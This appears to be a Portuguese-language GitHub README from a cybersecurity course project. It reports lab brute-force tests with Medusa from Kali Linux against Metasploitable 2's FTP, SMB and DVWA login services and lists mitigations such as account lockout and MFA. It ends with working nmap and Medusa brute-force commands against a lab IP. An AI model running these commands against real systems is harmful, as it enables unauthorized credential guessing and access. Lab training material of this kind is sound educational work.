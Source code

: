 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição

Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos

- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba & VSFTPD** - Serviços de rede

## 📊 Resultados
✅ Credenciais fracas identificadas com sucesso
✅ Serviços vulneráveis expostos
✅ Demonstração da eficácia de ataques de força bruta
✅ Acesso obtido em serviços FTP e SMB
✅ Enumeração de shares Samba bem-sucedida

## 🛡️ Medidas de Mitigação
🔒 Implementar políticas de senha forte
⚠️ Configurar bloqueio de conta após tentativas falhas
🔐 Utilizar autenticação multifator (MFA)
📊 Monitorar logs de acesso
🌐 Restringir acesso por rede (firewall)

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'

